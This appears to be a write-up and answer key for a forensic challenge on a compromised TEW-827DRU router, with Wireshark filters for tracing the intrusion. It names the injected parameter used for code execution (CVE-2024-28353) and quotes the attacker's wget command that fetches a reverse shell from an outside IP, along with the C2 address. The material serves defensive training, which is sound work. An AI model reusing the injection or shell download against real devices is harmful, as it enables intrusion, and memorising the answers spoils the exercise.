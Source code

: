 # Trent

## Speech
```
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).
```

## Questions
1. From what IP address did the attacker initially launched their activity?
192.168.10.2
2. What is the model name of the compromised router?
TEW-827DRU
3. How many failed login attempts did the attacker try before successfully logging into the router?
2
filter on `ip.src == 192.168.10.2 && http` we see POST to /apply_sec which seems to be a connection tenative, after each failed one he GET all the CSS and images of the page bu at the third he ask for other ressource (pandorabox for example)
4. At what UTC time did the attacker successfully log into the routers web admin interface?
2024-05-01 15:53:27
5. How many characters long was the password used to log in successfully?
0
Follow the HTTP stream of the connection
6. What is the current firmware version installed on the compromised router?
2.10
Request `GET /adm_status.asp`
7. Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?
usbapps.config.smb_admin_name
packet 74337, we see a GET to a .sh file, if we follow TCP and go back one stream before we get the code exec
8. What is the CVE number associated with the vulnerability that was exploited in this attack?
CVE-2024-28353
Search for `usbapps.config.smb_admin_name` on google https://oneshell.top/ && https://warp-desk-89d.notion.site/TEW-827DRU-5c40fb20572148f0b00f329d69273791
9. What was the first command the attacker executed by exploiting the vulnerability?
whoami
`ip.src ==192.168.10.2 && http && frame contains "usbapps.config.smb_admin_name"` we can see each command
10. What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?
wget http://35.159.25.253:8000/a1l4m.sh
11. Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?
Access to this resource is forbidden
see the execution of the command bash then the name of the file
12. What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)
35.159.25.253:41143